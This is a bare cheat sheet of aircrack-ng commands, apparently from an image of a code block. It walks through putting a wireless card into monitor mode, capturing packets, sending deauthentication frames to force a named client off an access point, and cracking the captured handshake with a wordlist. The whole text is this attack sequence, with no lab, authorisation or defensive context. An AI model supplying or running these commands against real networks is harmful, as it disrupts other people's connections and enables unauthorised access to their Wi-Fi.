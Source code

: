 ifconfig
iwconfig
iwconfig wlan0 channel 6

airmon-ng check --kill
airmon-ng start wlan1 6
airmon-ng stop wlan1mon

airodump-ng wlan1mon --channel 6,11 --write <filename> --manufacturer --wps

aireplay-ng --deauth 100 -a <AP mac> -c <client mac> wlan1mon

aircrack-ng <filename.cap> -w <wordlist_file> -l <output_key_file>
